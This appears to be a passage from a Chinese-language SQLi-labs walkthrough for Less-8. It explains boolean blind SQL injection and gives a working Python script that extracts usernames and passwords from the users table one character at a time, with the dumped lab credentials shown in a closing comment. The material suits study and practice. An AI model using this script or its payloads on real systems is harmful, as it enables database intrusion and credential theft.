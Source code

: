 接下来枚举字符

```
?id=1 and ascii(substr( 查询语句 ,1,1))=32 --+
每个字符有95种可能，32-126
```

使用脚本进行GET盲注：

```python
import requests

# 目标网址，不含参数
url = "http://192.168.244.131/Less-8/"

payload_len = """?id=1' and length(
	                (select group_concat(username,':',password)
                    from users)
                ) < {n} --+"""

payload_str = """?id=1' and ascii(
	                substr(
		                (select group_concat(username,':',password)
		                from users)
	                ,{x},1)
                ) = {r} --+"""


def getLength(url, payload):
    length = 1
    while True:
        response = requests.get(url=url + payload_len.format(n=length))
        if 'You are in...........' in response.text:
            print('完成长度测试，长度：', length, )
            return length
        else:
            length += 1


def getStr(url, payload, length):
    str = ''
    for l in range(1, length + 1):
        for n in range(33, 126):
            response = requests.get(url=url + payload_str.format(x=l, r=n))
            # 32是空格
            if 'You are in...........' in response.text:
                str += chr(n)
                print(chr(n))
                break
    print(str)
    return str


length = getLength(url, payload_len)
getStr(url, payload_str, length)

# 最后输出 完成长度测试，长度： 189，此长度为加了冒号的，是为了隔开名称和密码，真实长度可以把上述两个冒号位置删掉
# Dumb:Dumb,Angelina:I-kill-you,Dummy:p@ssword,secure:crappy,stupid:stupidity,superman:genious,batman:mob!le,admin:admin,admin1:admin1,admin2:admin2,admin3:admin3,dhakkan:dumbo,admin4:admin4
```
